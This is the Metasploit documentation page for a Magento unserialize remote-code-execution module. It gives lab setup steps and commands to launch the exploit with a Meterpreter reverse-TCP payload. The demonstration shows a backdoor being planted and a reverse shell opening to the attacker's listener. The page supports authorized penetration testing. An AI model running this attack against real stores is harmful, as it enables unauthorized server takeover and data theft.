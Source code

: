 Magento is a popular open-source e-commerce platform written in PHP. An unserialization
vulnerability exists in the product that allows an unauthenticated user to gain arbitrary
code execution.


## Vulnerable Application

Magento Community and Enterprise editions before 2.0.6 are affected. The magento_unserialize module
was specifically tested against version 2.0.6, on Ubuntu 14.04 and Debian.

For testing purposes, you can download the vulnerable applications [here](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz).

## Verification Steps

To set up a vulnerable version of Magento, please follow these steps. This is specific to
Ubuntu 14, and assumes you are installing Magento under /var/www/html/.

1. Set up a [Ubuntu](http://www.ubuntu.com/) box.
2. Open a terminal, and enter: ```sudo apt-get install apache2```
3. Enter: ```sudo apt-get install php5```
4. Enter: ```sudo a2enmod rewrite```
5. Add the following content to /etc/apache2/sites-enabled/000-default.conf, inside the virtual block:

```
<Directory /var/www/html>
  Options Indexes FollowSymLinks MultiViews
  AllowOverride All
  Order allow,deny
  allow from all
</Directory>
```

6. Download the [vulnerable Magento app](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz)
7. Extract the compressed file: ```tar -xf magento2-2.0.5.tar.gz```
8. Move the files and directories of magento2-2.0.5 to /var/www/html/ (make sure .htaccess is copied too)
9. In terminal, enter: ```sudo chmod 644 /var/www/html/.htaccess```
10. Enter: ```sudo service apache2 restart```
11. Enter: ```sudo apt-get install mysql-server-5.6```. And follow the installation instructions of MySQL.
12. Enter: ```sudo apt-get install php5-mysql```
13. Enter: ```sudo apt-get install php5-mcrypt```
14. Enter: ```sudo php5enmod mcrypt```
15. Enter: ```sudo apt-get install php5-xsl php5-curl php5-intl```
16. Enter: ```sudo service apache2 restart```
17. cd to /var/www/html, enter: ```sudo mkdir tmp```, and cd to tmp
18. In tmp, do: ```curl -sS https://getcomposer.org/install | php```
19. Enter: ```sudo mv composer /usr/local/bin/composer```
20. In /var/www/html, do: ```composer install```
21. You will be asked for a username (public key) and password (private key). You can register
    for one here: https://marketplace.magento.com/
22. Back to terminal, enter: ```mysql -h localhost -u root -p[password]```
23. In mysql, enter: ```create database magento```, and exit
24. Go to http://localhost with a browser, and install Magento through the web interface.
25. After installation, back to the terminal, and enter: ```sudo rm -rf var/cache/*```
26. Enter: ```sudo rm -rf var/generation/*```
27. Enter: ```sudo rm -rf var/page_cache/*```
28. cd to /var/www/html/bin
29. Enter: ```sudo php magento deploy:mode:set developer```. It should say that you're in developer mode.
30. Enter: ```sudo php magento setup:static-content:deploy```
31. Enter: ```sudo php magento indexer:reindex```
32. Enter: ```sudo chmod -R 777 /var/www/html```
33. Go to http://localhost, you should see Magento up and running.
34. From Magento, log in as admin, and create a product. After creating one, make sure this product
    is also searchable from the front-end.

After setting up Magento, you can use your exploit module:

1. Start msfconsole
2. Do: ```exploit/multi/http/magento_unserialize```
3. Do: ```set RHOST [IP]```
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp```
5. Do: ```set LHOST [IP]```
6. Do: ```exploit```
7. And you should get a session

## Demonstration

```
msf exploit(magento_unserialize) > check
[*] 192.168.1.108:80 The target appears to be vulnerable.
msf exploit(magento_unserialize) > exploit

[*] Started reverse TCP handler on 192.168.1.94:4444 
[+] 192.168.1.108:80 - generated a guest cart id
[+] 192.168.1.108:80 - backdoor done!
[*] Sending stage (33721 bytes) to 192.168.1.108
[*] Meterpreter session 6 opened (192.168.1.94:4444 -> 192.168.1.108:46835) at 2016-06-02 17:09:34 -0500
[+] 192.168.1.108:80 - Deleted lP5UgbUBLm1sWN25gWfZBqYKms.php

meterpreter > 
```
